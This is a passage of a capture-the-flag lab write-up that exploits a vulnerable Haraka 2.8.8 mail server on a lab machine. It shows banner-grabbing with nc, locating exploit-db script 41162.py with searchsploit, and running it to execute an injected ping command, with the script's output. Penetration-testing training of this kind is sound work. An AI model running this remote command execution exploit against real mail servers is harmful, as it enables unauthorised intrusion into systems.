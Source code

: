     
    
    root@kali# nc 10.10.10.113 1025
    220 redcross ESMTP Haraka 2.8.8 ready
    421 timeout  
    

#### Exploit

There’s an exploit for this version of Haraka:

    
    
    root@kali# searchsploit haraka
    ------------------------------------------- ----------------------------------------
     Exploit Title                             |  Path
                                               | (/usr/share/exploitdb/)
    ------------------------------------------- ----------------------------------------
    Haraka < 2.8.9 - Remote Command Execution  | exploits/linux/remote/41162.py
    ------------------------------------------- ----------------------------------------
    Shellcodes: No Result
    

I used this script without modification. First, I got the target to ping me:

    
    
    [HARAKIRI SUCCESS] SMTPDataError is most likely an error unzipping the archive, which is what we want [Error unpacking archive]                                                                                            
    root@kali# python 41162.py -c "ping -c 1 10.10.14.14" -t penelope@redcross.htb -m 10.10.10.113                                                                                          
    ##     ##    ###    ########     ###    ##    ## #### ########  ####
    ##     ##   ## ##   ##     ##   ## ##   ##   ##   ##  ##     ##  ##
    ##     ##  ##   ##  ##     ##  ##   ##  ##  ##    ##  ##     ##  ##
    ######### ##     ## ########  ##     ## #####     ##  ########   ##
    ##     ## ######### ##   ##   ######### ##  ##    ##  ##   ##    ##
    ##     ## ##     ## ##    ##  ##     ## ##   ##   ##  ##    ##   ##
    ##     ## ##     ## ##     ## ##     ## ##    ## #### ##     ## ####
    
    -o- by Xychix, 26 January 2017 ---
    -o- xychix [at] hotmail.com ---
    -o- exploit haraka node.js mailserver <= 2.8.8 (with attachment plugin activated) --
    
    -i- info: https://github.com/haraka/Haraka/pull/1606 (the change that fixed this)
    
    Send harariki to penelope@redcross.htb, attachment saved as harakiri-20190403-125438.zip, commandline: ping -c 1 10.10.14.14 , mailserver 10.10.10.113 is used for delivery
    ...[snip]...
    